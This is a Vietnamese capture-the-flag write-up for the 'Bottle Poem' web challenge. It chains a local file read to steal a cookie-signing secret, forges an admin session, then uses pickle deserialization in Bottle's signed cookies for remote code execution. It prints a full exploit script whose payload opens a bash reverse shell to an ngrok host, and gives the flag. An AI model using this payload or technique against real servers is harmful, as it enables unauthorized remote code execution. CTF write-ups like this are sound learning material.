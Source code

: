 # Bottle Poem

Mở burp, và check tag http history dễ thấy ta có thể khai thác local file read (LFR) tại `/show?id=`

![LFR](https://user-images.githubusercontent.com/77546253/193604811-6f66b999-6627-4c31-aa56-82927b1f6957.png)

Tiếp tục fuzz ta có thể lấy được source file main của server

![app_py](https://user-images.githubusercontent.com/77546253/193604841-3e55f2a3-dd19-49a1-a341-8ba35b613038.png)

Điều làm mình để ý đó là đoạn code sau trong route `/sign`

```python
@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"
```

Nếu `session["name"]=="admin"` thì sẽ render ra một template riêng cho admin, lúc này mình nghĩ tới cách forge session thành admin, nếu làm vậy thì ta sẽ phải cần có secret. May thay secret này được import từ `from config.secret import sekai`

-> read file này tại `/proc/self/cwd/config.secret.py`

![secret_py](https://user-images.githubusercontent.com/77546253/193604875-fa747bb1-aa30-430a-a6d1-d3a032aa1349.png)

Nhưng sau khi forge thành công thì chỉ nhận lại dòng chữ `Hello, you are admin, but it’s useless.`, nhìn lại description thì thấy tác giả có đề cập về `Flag is executable on server.` -> execute file này để lấy flag -> phải rce

Mình bay vào source của bottle, và để ý trong file `bottle.py` có import pickle và dùng chúng trong việc set_cookie cũng như get_cookie

![get_cookie](https://user-images.githubusercontent.com/77546253/193604971-69579aae-0bfd-418a-9629-098b2765b0fc.png)

=> lợi dụng pickle deserialization trong python để rce

script:

```python
import pickle
import base64
import os
 
 
class shell(object):
    def __reduce__(self):  
       return (os.system, ("bash -c 'bash -i >& /dev/tcp/4.tcp.ngrok.io/10709 0>&1'",))

from bottle import route, run, template, request, response, error

@route('/')
def hello():
    sekai='Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu'
    response.set_cookie("name", shell(), secret=sekai)

    return "Hello World!"

run(host='localhost', port=1111, debug=True)
```

và flag: `SEKAI{W3lcome_To_Our_Bottle}`
